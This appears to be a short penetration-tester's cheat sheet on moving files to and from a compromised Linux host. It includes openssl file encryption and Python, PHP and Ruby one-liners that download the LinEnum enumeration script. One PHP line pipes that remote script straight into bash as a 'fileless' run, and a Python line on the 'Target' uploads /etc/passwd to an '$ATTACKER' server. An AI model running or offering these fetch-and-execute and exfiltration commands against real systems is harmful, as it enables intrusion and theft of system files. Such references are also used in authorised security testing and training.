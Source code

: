 - [Linux - GTFOBins](https://gtfobins.github.io/)
  - +file download/upload

### Encrpytion
- openssl

```
# Encrypt
openssl enc -aes256 -iter 100000 -pbkdf2 -in /input/file -out file.enc
-enc = encryt
-inter = iterations
-pbkdf2 = password-based key derivation function 

# Decrypt
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in file.enc -out file
```

### Using code
- Python oneliner:
```
# Download
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

# Upload
## Attacker 
python3 -m uploadserver

## Target
python3 -c 'import requests;requests.post("http://$ATTACKER:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

- PHP
```
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# Peping to create fileless
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
- Ruby
```
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
